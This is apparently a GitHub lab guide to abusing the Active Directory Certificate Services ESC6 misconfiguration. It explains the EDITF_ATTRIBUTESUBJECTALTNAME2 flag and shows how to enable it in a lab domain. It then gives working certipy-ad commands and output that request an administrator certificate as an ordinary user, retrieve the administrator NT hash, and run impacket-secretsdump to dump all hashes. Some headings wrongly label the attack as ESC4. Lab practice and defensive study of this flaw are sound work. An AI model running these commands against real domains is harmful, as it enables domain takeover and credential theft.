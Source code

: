 # 🔐 Active Directory Certificate Services (ADCS) - Enterprise CA Security Configuration 6 (ESC6) Abuse Guide

# What is ADCS - ESC6

The `EDITF_ATTRIBUTESUBJECTALTNAME2` flag enables the addition of custom values in a certificate’s **Subject Alternative Name (SAN)** field, even when the subject is created from Active Directory. When enabled on a Certificate Authority (CA), this flag can allow malicious individuals to misuse certificate templates that permit domain authentication. By specifying random Subject Alternative Names (SANs), attackers could potentially authenticate as any user, including domain administrators, which poses a serious security threat.

In summary, if the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag is set on a Certificate Authority Server (CA), any template with **client authentication** enabled is vulnerable to an **ESC1** attack and can be used to request a certificate with a user-defined Subject Alternative Name (SAN).

Unprivileged users that can specify the users in the SAN settings can lead to immediate compromise, and pose a great risk to your organization.

If the AD CS `editflags > EDITF_ATTRIBUTESUBJECTALTNAME2` flag is turned on, each user can specify the SAN settings for their certificate request. This, in turn, affects all certificate templates, whether they have the *Supply in the request* option turned on or not.

If there's a template where the `EDITF_ATTRIBUTESUBJECTALTNAME2` setting is turned on, and the template is valid for authentication, an attacker can enroll a certificate that can impersonate any arbitrary account.


## Setting Up the ESC4 Misconfiguration (Lab Environment)

For ADCS ESC6, we have to enable the following flag:

```
EDITF_ATTRIBUTESUBJECTALTNAME2
```

In order to make a template vulnerable to ADCS ESC6, we need to make this change.

### Step 1: Verify the Current Flag

First, we check using a command to ensure that the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag is not currently set:

```
certutil -config "\<CA\_HOST>\LAB-CA" -getreg policy\EditFlags
```

In our case, the CA is on the domain controller:

```
certutil -config "DC01-FURIOUS5\furious-DC01IFURIOUS5-CA" -getreg policy\EditFlags
```

![Error loading Image](Imgs/image1.png)

### Step 2: Modify the Registry

Now go to `regedit`:

```
HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\<YourCAName>\PolicyModules\CertificateAuthority\_MicrosoftDefault.Policy
```

Replace `<YourCAName>` with the name of your CA.

Right-click `EditFlags` and click Modify.

![Error loading Image](Imgs/image2.png)

Initially, the value is:

```
11014e
```

Save this value. We will revert it after the practice.

![Error loading Image](Imgs/image3.png)

Change the value to:

```
15014e
```

![Error loading Image](Imgs/image4.png)

### Step 3: Restart the Certificate Service

Now go to Command Prompt and run the following commands:

```
net stop certsvc
```

Then:

```
net start certsvc
```

### Step 4: Confirm the Flag is Enabled

Now when we run the command again:

```
certutil -config "DC01-FURIOUS5\furious-DC01IFURIOUS5-CA" -getreg policy\EditFlags
```

We should see the flag enabled.

![Error loading Image](Imgs/image5.png)



## Key Conditions for ESC4 Exploitation

- One user-specified SAN should be enabled.
- Request disposition should be set to "issue".

![Error loading Image](Imgs/image6.png)

---

## Step-by-Step Exploitation

The exploitation is very similar to ESC1.

### Requesting Domain Admin Certificate using User Template

```

certipy-ad req -ca furious-DC01-FURIOUS5-CA -dc-ip 192.168.129.140 -u jack -p 'complex1@' -template User -target furious.local -upn [administrator@furious.local](mailto:administrator@furious.local)

```
```
┌──(kali㉿kali)-[~/Home-lab/ADCS/ESC5]
└─$ certipy-ad req -ca furious-DC01-FURIOUS5-CA -dc-ip 192.168.129.140 -u jack -p 'complex1@' -template User -target furious.local -upn administrator@furious.local
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 59
[*] Got certificate with UPN 'administrator@furious.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'

```

### Authenticating with Domain Admin Certificate

```
certipy-ad auth -pfx administrator.pfx
```
```
┌──(kali㉿kali)-[~/Home-lab/ADCS/ESC5]
└─$ certipy-ad auth -pfx administrator.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@furious.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@furious.local': aad3b435b51404eeaad3b435b51404ee:f1c3f58541c936fd550482ec578f102e
```

### Optional: Dump All Hashes

```
impacket-secretsdump -hashes 'aad3b435b51404eeaad3b435b51404ee\:f1c3f58541c936fd550482ec578f102e' 'furious.local/administrator\@furious.local'
```
